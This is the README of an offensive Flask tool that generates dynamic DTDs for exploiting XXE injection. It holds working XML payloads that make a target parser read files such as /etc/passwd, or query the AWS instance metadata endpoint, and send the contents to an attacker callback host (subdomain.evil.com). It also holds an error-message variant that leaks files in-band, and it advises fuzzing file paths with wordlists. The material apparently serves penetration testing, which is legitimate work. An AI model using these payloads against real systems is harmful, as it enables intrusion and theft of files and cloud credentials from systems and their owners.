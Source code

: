 # Dynamic DTD
A python Flask app that generates dynamic DTDs for easy data exfiltration.

Usually when using external DTDs to perform data exfiltration with an XXE Injection vulnerability, you have to keep modifying the DTD, updating the external entity to point to new locations (files, internal web resources, etc.) every time you want to exfiltrate something new. This simple python Flask app allows you to create dynamic DTDs based on a single URL parameter, meaning that you can easily use it with your favorite fuzzer and file wordlist, sit back, and watch the data come in.

## Installation

Installation is simple. Just clone this repository, and install flask using pip:

```bash
pip3 install flask
```

## Configuration

There are generally two ways to use an external DTD to exfiltrate data: sending the data as part of a URL to a server you control, or triggering an error message in the application which includes the data.

If you are using the former, in `app.py`, on line 5, change the `app.config['callback']` assignment to the URL of either a Burp collaborator payload, or even just a web server you can view access logs on. Include the scheme, port number if it is non-standard, but leave off the trailing slash ( / ). An example can be seen below:

```
app.config['callback'] = 'https://subdomain.evil.com:8443'
```

Alternatively, you can pass the URL of the callback server as a URL parameter `callback` in payloads themselves (see Usage).

## Usage

Change to the directory of `app.py` and run the following command, specifying the port you want the server to run on, and the IP of the interface you wish to use.

```bash
flask run -p <port> -h <interface-ip>
```

Once the server is running, you can generate DTDs in three different ways, depending on the exfiltration technique you wish to use. Note that the payload required is different for each technique.

### Out-of-Band Exfiltration #1

For Out-of-Band exfiltration using a parameter entity, use the /oob.dtd path to generate dynamic DTDs. You can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `resource` parameter to appropriate values:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?resource=file:///etc/passwd"> %xxe;]>
<root></root>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear in the access logs of the `callback` server specified earlier. Note that for some parsers, only the first line of the file may get sent.

You can also set the `callback` server dynamically in the payload by using a `callback` parameter in the URL, setting it in the same way as in the script (i.e. including the scheme, port number if it is non-standard, and leaving off the trailing slash):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?callback=https://subdomain.evil.com:8443&resource=file:///etc/passwd"> %xxe;]>
<root></root>
```

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `resource` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https). For example, the following payload can be used to try and extract information from the AWS Instance Metadata API:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/oob.dtd?resource=http://169.254.169.254/latest/dynamic/instance-identity/document"> %xxe;]>
<root></root>
```

### Out-of-Band Exfiltration #2

As an alternative Out-of-Band exfiltration technique using a regular entity (&amp;oob;), use the /oob2.dtd path to generate dynamic DTDs. You can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `resource` parameter to appropriate values. Ensure the &amp;oob; entity is contained within the XML document itself.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://<server-ip>:<port>/oob2.dtd?resource=file:///etc/passwd">
<root>&oob;</root>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear in the access logs of the `callback` server specified earlier. Again, note that for some parsers, only the first line of the file may get sent.

As with the previous Out-of-Band technique, you can also set the `callback` server dynamically in the payload by using a `callback` parameter in the URL.

### Error Message Exfiltration

For error message exfiltration, use the /error.dtd path to generate dynamic DTDs. You can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `resource` parameter to appropriate values:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/error.dtd?resource=file:///etc/passwd"> %xxe;]>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear within an error message in the application itself. Since this is an in-band technique, the `callback` variable is not used.

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `resource` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https).
